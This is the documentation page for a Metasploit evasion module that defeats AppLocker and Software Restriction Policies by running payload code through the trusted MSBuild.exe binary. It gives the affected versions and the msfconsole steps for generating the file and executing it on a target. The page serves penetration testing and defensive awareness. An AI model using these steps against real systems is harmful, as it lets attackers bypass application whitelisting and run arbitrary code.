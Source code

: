 ## Introduction

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary MSBuild.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block MSBuild.exe or the "Microsoft.Net" directory.

## Options

- **FILENAME** - Filename for the evasive file (default: msbuild.txt).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_msbuild`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] msbuild.txt stored at /root/.msf4/local/msbuild.txt`
  7. `[*] Copy msbuild.txt to the target`
  8. `[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\MSBuild.exe msbuild.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1127/
